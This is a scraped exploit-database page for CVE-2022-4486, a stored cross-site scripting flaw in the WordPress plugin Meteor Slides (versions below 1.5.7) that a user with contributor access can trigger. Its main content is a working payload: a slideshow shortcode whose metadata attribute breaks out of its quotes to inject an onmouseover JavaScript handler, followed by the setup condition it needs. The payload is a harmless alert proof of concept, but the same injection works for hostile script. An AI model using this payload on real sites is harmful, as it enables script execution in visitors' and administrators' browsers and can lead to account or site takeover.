 ```yaml
---
title: Meteor Slides <= 1.5.6 - Contributor+ Stored XSS exploit
url: https://sploitus.com/exploit?id=WPEX-ID:D0AFD17C-09CD-4AB5-95A5-6AC8C3C0A50B&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-29
fetch_date: 2025-10-04T02:38:24.404974
---
```


# Meteor Slides <= 1.5.6 - Contributor+ Stored XSS exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Meteor Slides < 1.5.7 - Contributor+ Stored XSS CVE-2022-4486

2022-12-28 | CVSS 5.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=WPEX-ID:D0AFD17C-09CD-4AB5-95A5-6AC8C3C0A50B
[meteor_slideshow slideshow='slideshow-category' metadata='" onmouseover="alert(1)"']

Note: A Slideshow Category and Slide must exist.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)